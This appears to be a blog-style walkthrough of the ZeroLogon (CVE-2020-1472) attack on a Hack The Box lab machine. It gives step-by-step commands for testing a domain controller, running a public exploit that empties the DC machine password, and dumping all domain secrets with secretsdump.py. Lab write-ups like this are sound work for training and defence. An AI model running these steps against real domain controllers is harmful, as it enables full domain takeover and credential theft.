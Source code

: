 ```yaml
---
layout: single
title:  "CVE-2020-1472 - ZeroLogon"
date:   2020-09-20 08:49:23 +0100
categories: windows
excerpt: Simple Walkthrough of using the ZeroLogon exploit
---
```


## Overview
The attack described here takes advantage of flaws in a cryptographic authentication protocol that proves the authenticity and identity of a domain-joined computer to the DC. Due to incorrect use of an AES mode of operation it is possible to spoof the identity of any computer account (including that of the DC itself) and set an empty password for that account in the domain. (Secura)

## WhitePaper

[**Found Here**](https://www.secura.com/pathtoimg.php?id=2055)

## Installation

Firstly, you need the latest version of impacket from [here](https://github.com/SecureAuthCorp/impacket)

{% highlight powershell linenos %}
git clone https://github.com/SecureAuthCorp/impacket.git
{% endhighlight %}

![](/images/zerologon/clone.png)


Then cd into the folder and execute

{% highlight powershell linenos %}
pip3 install .
{% endhighlight %}

![](/images/zerologon/install-impacket.png)


## Testing if a DC is vulnerable
Spoiler, they probably are.

First, clone the following [repo](https://github.com/SecuraBV/CVE-2020-1472) and install the requirements

{% highlight powershell linenos %}
git clone https://github.com/SecuraBV/CVE-2020-1472.git
{% endhighlight %}

![](/images/zerologon/tester.png)


{% highlight powershell linenos %}
cd CVE-2020-1472
pip3 install -r requirements.txt
{% endhighlight %}

![](/images/zerologon/tester-setup.png)

### Running the Check Script

Now that we have the testing script installed, we can check a host to see if they are vulnerable, I will be running this against the [Multimaster machine](https://www.hackthebox.eu/home/machines/profile/232) from Hack The Box.

The command is as follows:
{% highlight powershell linenos %}
python zerologon_tester.py <DC netbios name> <DC-IP>
{% endhighlight %}

![](/images/zerologon/compromised-tester.png)

Bingo! We can see that the host is vulnerable!


## Exploiting a Domain Controller

### Risks
If you are doing this in a working production environment then you need to make sure you have the hash of the Domain Controller Machine Account as this wil be needed to reset the host after you have exploited it, otherwise it will no longer be able to communicate with other DC's.

### Getting the POC

To get the exploit, clone this [git repo](https://github.com/dirkjanm/CVE-2020-1472) and make sure you have impacket installed

{% highlight powershell linenos %}
git clone https://github.com/dirkjanm/CVE-2020-1472.git
{% endhighlight %}

![](/images/zerologon/exploit.png)

Now we can run the exploit against our vulnerable target machine

{% highlight powershell linenos %}
python cve-2020-1472-exploit.py <NETBIOS NAME> <DC-IP>
{% endhighlight %}

![](/images/zerologon/exploit-1.png)

If all was sucessfull you will get a `Result: 0`

### Dumping Domain Secrets with secretsdump.py

Now we have set the machine password to an empty string, "", we can now DCSync with secretsdump.py to get all the domain secrets.

{% highlight powershell linenos %}
secretsdump.py -just-dc -no-pass DCHOSTNAME$@DC-IP
{% endhighlight %}

![](/images/zerologon/exploit-2.png)

And just like that I've owned your whole AD Environment, in less that two minutes.


## Respect
If you enjoyed the write up or found it useful consider + repping my htb profile linked below:

[![HTB](http://www.hackthebox.eu/badge/image/210952.png)](https://www.hackthebox.eu/home/users/profile/210952)


